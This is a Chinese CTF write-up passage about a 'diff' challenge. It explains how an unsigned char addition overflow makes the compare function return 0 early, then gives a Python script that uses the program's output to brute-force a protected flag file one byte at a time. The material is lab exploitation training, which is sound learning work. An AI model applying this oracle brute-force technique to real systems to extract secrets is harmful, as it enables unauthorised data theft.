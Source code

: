 keer师傅：`char` + `char` = 溢出！怼他！

我们知道`char`型变量占1个字节，相当于`unsigned byte`，表示范围是0x0-0xff，那么两char相加的范围就是0x0 - 0x1fe ，可是`char`型只能存储1个字节的数据，因此两`char`相加产生的进位就会被忽略。举个栗子，0x7d+0x83=0x100->0x0。get到了这一点，再看for循环条件，就能看出些端倪了。

`buf2[i] + buf1[i] = 0x100` 时会终止for循环，并且返回0。按程序正常的流程走，除非`buf1`和`buf2`完全相同，否则不可能返回0，而现在只要`buf1`和`buf2`**任意位置对应的字节**相加等于0x100，`compare`也会返回0。

>返回 0 时程序打印 "一样"
> 
>返回值非0时 程序打印 行号

根据不同的返回值，就可以对flag进行逐个字节的爆破了，脚本如下：

```python
#!/usr/bin/python
#__author__:TaQini
from subprocess import *
fix = ''
while 1:
    for i in range(0x100):
        payload = fix+chr(i)
        f = open('/tmp/ktql','w+')
        tmp = f.write(payload)
        f.close()
        p = Popen(['/home/ctf/diff','/tmp/ktql','/home/ctf/flag'],stdout=PIPE)
        res = p.stdout.read()
        if res != '1':
            # print res,chr(0x100-i)
            print fix
            fix+=chr(0x100-i)
            break
```



# End

上述所有题目复现地址 https://buuoj.cn/ or  http://ctf.taqini.space/
